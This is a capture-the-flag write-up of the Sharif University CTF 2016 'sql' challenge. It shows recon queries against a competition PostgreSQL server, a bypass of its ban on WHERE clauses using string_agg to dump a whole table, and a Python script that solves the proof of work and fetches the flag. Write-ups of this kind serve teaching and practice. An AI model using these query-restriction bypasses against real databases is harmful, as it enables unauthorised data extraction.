```yaml
---
layout: post
title:  "Sharif University CTF 2016: sql (pwn 150)"
author: f0rki
categories: writeup
tags: [cat/web, lang/sql, misc/pofw]
---
```


* **Category:** pwn
* **Points:** 150
* **Description:**

> Our website http://ctf.sharif.edu:36455/chal/sql/ executes your PostgreSQL
> queries. And flags are nicely formatted.

## Write-up

We were presented with a simple form for a SQL query string and were given a
proof of work challenge. Apparently we can execute arbitrary SQL queries if we
can compute the proof of work. As it turns out there wasn't more to do than
this. I really don't know why this was categorized as `pwn`, because it really
is a `web` challenge.

Step 1 was to copy-paste proof of work code from a past CTF. We can then submit
arbitrary queries and are only restricted by the permissions of the database
user. The organizers were so nice and told us it is PostgreSQL. So first some
recon queries:

```
sql> select version()
PostgreSQL 9.4.5 on x86_64-unknown-linux-gnu, compiled by gcc (Ubuntu 4.9.2-10ubuntu13) 4.9.2, 64-bit

sql> SELECT current_database()
sql_limit_ctf_question

sql> select * from information_schema.tables
sql_limit_ctf_question | pg_catalog | pg_type  | BASE TABLE |||| YES | NO |
sql_limit_ctf_question | public     | messages | BASE TABLE |||| YES | NO |
sql_limit_ctf_question | public     | mydata   | BASE TABLE |||| YES | NO |

sql> select count(*) from mydata
0

sql> select count(*) from messages
100000

sql> select count( distinct msg) from messages
96519

sql> select * from messages
```

We only receive the first 3 rows from the output. And messages seems to be
filled with some random garbage. The description mentioned that the flag is
nicely formatted. So maybe one of the messages contains the flag.

```
sql> select * from messages where msg like 'Sharif%'
Search is not allowed.
```

So apparently our current database user isn't allowed to put `where` into
queries. That makes it kind of hard to retrieve the messages. We could fetch
all the rows, three at a time with

```
select * from messages limit 3 offset X
```

But this would take ages, because we have to compute the proof of work. So
there has to be another way. After a little bit of googling I found the
interesting function: `string_agag`. This function allows us to concatenate all
fields from a query into a single string. With the following query we can fetch
all messages, separated by a `, `.

```
select string_agg(msg, ', ') from messages
```

Now it was just a matter of search for the flag and it turns out we got lucky
:) We used the following python script to compute the proof of work, send
queries and fetch the flag:


```python
import requests
import re
import os
import hashlib
import sys
from pwn import log

URL = "http://ctf.sharif.edu:36455/chal/sql/"
NONCERE = re.compile("Nonce: ([a-zA-Z0-9]+) ")
FLAGRE = re.compile("[sS]harif[cC][tT][fF]{.+}")


def proof_of_work(chal, rlen=30, forbidden_chars="", hashfunc=hashlib.sha1):
    i = 0
    maxiter = 2 ** 28
    while i < maxiter:
        i += 1
        s = os.urandom(rlen)
        for c in forbidden_chars:
            s = s.replace(c, "")
        h = hashfunc()
        h.update(s)
        h.update(chal)
        digest = h.hexdigest()
        if digest.startswith("00000"):
            log.info("found proof of work after {} iterations"
                     .format(i))
            return s
    log.critical("couldn't find matching proof of work after {} iterations"
                 .format(i))
    return None


def run_query(query):
    log.info("Running query:\n{}".format(repr(query)))
    s = requests.session()
    resp = s.get(URL)
    m = NONCERE.search(resp.text)
    if not m:
        print("Received:")
        print(resp.text)
        raise Exception("No nonce found in response!")
    nonce = m.groups()[0]
    log.info("got nonce '{}', computing proof of work".format(nonce))
    pofw = proof_of_work(nonce)
    if not pofw:
        return None
    log.info
    resp = s.post(URL, data={"pow": pofw, "sql": query})
    return resp.text


if __name__ == "__main__":
    #r = run_query("SELECT version()")
    #log.info("received:\n" + str(r))
    if len(sys.argv) > 1:
        for i, q in enumerate(sys.argv[1:]):
            r = run_query(q)
            log.info("received:\n" + str(r))
            if r:
                fname = "output{}.html".format(i)
                log.info("Writing response to " + fname)
                with open(fname, "w") as f:
                    f.write(str(r))

    log.info("Now fetching flag:")
    res = run_query("select string_agg(msg, ', ') from messages")
    for flagcandidate in FLAGRE.findall(res):
        log.info(flagcandidate)

```

Running the script:

```
[*] Now fetching flag:
[*] Running query:
    "select string_agg(msg, ', ') from messages"
[*] got nonce 'c41bcb2185', computing proof of work
[*] found proof of work after 354166 iterations
[*] SharifCTF{f1c16ea7b34877811e4662101b6a0d30}
```

